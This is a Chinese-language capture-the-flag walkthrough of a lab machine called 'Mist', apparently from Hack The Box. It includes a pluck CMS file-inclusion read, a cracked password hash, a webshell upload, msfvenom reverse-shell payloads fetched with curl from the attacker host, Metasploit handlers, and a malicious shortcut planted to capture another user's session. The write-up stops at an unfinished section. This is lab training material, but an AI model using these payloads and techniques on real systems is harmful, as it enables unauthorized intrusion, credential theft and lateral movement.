


# Mist

:::info

Difficulty: Medium

Operating System: Linux

:::

## nmap 信息搜集

```plaintext title="sudo nmap -A --min-rate=5000 -T5 -p- 10.10.11.17"
Nmap scan report for 10.10.11.17
Host is up (0.33s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-title: Mist - Mist
|_Requested resource was http://10.10.11.17/?file=mist
| http-robots.txt: 2 disallowed entries
|_/data/ /docs/
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-generator: pluck 4.7.18
```

## web service

尝试直接访问



根据页面，可以得知是由 [pluck](https://github.com/pluck-cms/pluck) 框架搭建的

尝试进行目录爆破

```plaintext
[22:57:55] 200 -    4KB - /ADMIN.php
[22:57:55] 200 -    4KB - /admin.php
[22:57:55] 200 -    4KB - /Admin.php
[22:58:42] 200 -    2KB - /cgi-bin/printenv.pl
[22:58:55] 301 -  333B  - /data  ->  http://10.10.11.17/data/
[22:58:55] 200 -   48B  - /data/
[22:59:00] 301 -  333B  - /docs  ->  http://10.10.11.17/docs/
[22:59:00] 200 -    2KB - /docs/
[22:59:21] 301 -  335B  - /images  ->  http://10.10.11.17/images/
[22:59:21] 200 -  771B  - /images/
[22:59:23] 403 -  300B  - /index.php::$DATA
[22:59:24] 200 -    4KB - /install.php
[22:59:24] 200 -    4KB - /install.php?profile=default
[22:59:33] 200 -    1KB - /login.php
[23:00:10] 200 -    2KB - /README.MD
[23:00:10] 200 -    2KB - /README.md
[23:00:10] 200 -    2KB - /ReadMe.md
[23:00:10] 200 -    2KB - /readme.md
[23:00:10] 200 -    2KB - /Readme.md
[23:00:14] 200 -   47B  - /robots.txt
```

根据其原代码，可以定位到网站的配置文件目录 `/data/settings/`

注意到网站首页的 url 结构 `http://10.10.11.17/?file=mist` 之后，以及存在漏洞 [Pluck CMS 4.7 - Multiple Local File Inclusion / File Disclosure Vulnerabilities](https://www.exploit-db.com/exploits/36129) 怀疑可能存在任意文件读取，尝试利用

```php title="http://10.10.11.17/data/modules/albums/albums_getimage.php?image=admin_backup.php"
<?php
$ww = 'c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e';
?>146
```

直接使用 [crackstation.net](https://crackstation.net/) 进行破解

|                               Hash                               |  Type  |  Result   |
| :--------------------------------------------------------------: | :----: | :-------: |
| c81dde783f9543114ecd9fa14e8440a2a868bfe0bacdf14d29fce0605c09d5a2 |        |           |
| bcd2028d0d7a3fa805573d074faa15d6361f44aec9a6efe18b754b3c265ce81e | sha512 | lexypoo97 |

得到用户密码

```plaintext
lexypoo97
```

### 网站后台

在 `options` 选项卡，可以直接安装模块，也就是可以直接上传 webshell



使用 [p0wny-shell - Github](https://github.com/flozz/p0wny-shell) 大马进行打包为 zip 文件上传即可

需要注意的是，上传的文件会定时进行删除，所以需要尽快进行 shell 反弹

生成载荷，并开启 http 投递

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=9999 -f exe > 10.10.16.8.exe
python3 -m httpserver 8080
```

在大马的窗口中执行

```shell
curl http://10.10.16.8:8080/10.10.16.8.exe -o 10.10.16.8.exe
10.10.16.8.exe
```

本地启动监听

```shell
┌──(randark ㉿ kali)-[~]
└─$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > set lhost 10.10.16.8
lhost => 10.10.16.8
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:9999
```

就可以收到回连的 shell

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:9999
[*] Sending stage (201798 bytes) to 10.10.11.17
[*] Sending stage (201798 bytes) to 10.10.11.17
[*] Meterpreter session 42 opened (10.10.16.8:9999 -> 10.10.11.17:59040) at 2024-04-07 23:50:39 +0800

meterpreter > sysinfo
Computer        : MS01
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : MIST
Logged On Users : 6
Meterpreter     : x64/windows
```

## User - MS01\svc_web

直接上 PEASS-ng 脚本，以下为有价值信息

```plaintext
Host Name:                 MS01
OS Name:                   Microsoft Windows Server 2022 Standard
OS Version:                10.0.20348 N/A Build 20348
OS Manufacturer:           Microsoft Corporation
Domain:                    mist.htb
Hotfix(s):                 3 Hotfix(s) Installed.
                           [01]: KB5034613
                           [02]: KB5035857
                           [03]: KB5035970
[+] DNS CACHE
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 192.168.100.100
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 10.10.11.17
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 192.168.100.100
    Record Name . . . . . : DC01.mist.htb
    A (Host) Record . . . : 10.10.11.17
```

### 环境探测

发现一个文件夹 `C:\Common Applications`

```plaintext
Listing: C:\Common Applications
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1118  fil   2021-05-08 16:15:16 +0800  Calculator.lnk
100666/rw-rw-rw-  1175  fil   2021-05-08 06:14:00 +0800  Notepad.lnk
100666/rw-rw-rw-  1171  fil   2021-05-08 06:15:00 +0800  Wordpad.lnk
100666/rw-rw-rw-  190   fil   2024-03-10 17:46:01 +0800  desktop.ini
```

可能存在其他用户点击的可能性，部署一个负载，并创建恶意快捷方式

生成载荷

```shell
┌──(randark㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=8888 -f exe > 10.10.16.8-8888.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

投放

```shell
meterpreter > upload 10.10.16.8-8888.exe
[*] Uploading  : /home/randark/10.10.16.8-8888.exe -> 10.10.16.8-8888.exe
[*] Uploaded 7.00 KiB of 7.00 KiB (100.0%): /home/randark/10.10.16.8-8888.exe -> 10.10.16.8-8888.exe
[*] Completed  : /home/randark/10.10.16.8-8888.exe -> 10.10.16.8-8888.exe
```

开启监听

```shell
┌──(randark㉿kali)-[~]
└─$ msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lport 8888
lport => 8888
msf6 exploit(multi/handler) > set lhost 10.10.16.8
lhost => 10.10.16.8
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:8888 
```

创建恶意快捷方式

```powershell
meterpreter > shell
Process 2516 created.
Channel 5 created.
Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\xampp\htdocs> $objShell = New-Object -ComObject WScript.Shell
$objShell = New-Object -ComObject WScript.Shell
PS C:\xampp\htdocs> $lnk = $objShell.CreateShortcut("c:\Common Applications\Notepad.lnk")
$lnk = $objShell.CreateShortcut("c:\Common Applications\Notepad.lnk")
PS C:\xampp\htdocs> $lnk.TargetPath = "C:\xampp\htdocs\10.10.16.8-8888.exe"              
$lnk.TargetPath = "C:\xampp\htdocs\10.10.16.8-8888.exe"
PS C:\xampp\htdocs> $lnk.Save()
$lnk.Save()
```

等待片刻之后，收到回连的shell

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.8:8888 
[*] Sending stage (201798 bytes) to 10.10.11.17
[*] Meterpreter session 2 opened (10.10.16.8:8888 -> 10.10.11.17:59059) at 2024-04-08 13:09:17 +0800

meterpreter > sysinfo 
getComputer        : MS01
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : MIST
Logged On Users : 7
Meterpreter     : x64/windows
meterpreter > getuid 
Server username: MIST\Brandon.Keywarp
```

## User - MIST\Brandon.Keywarp

TODO 未完成
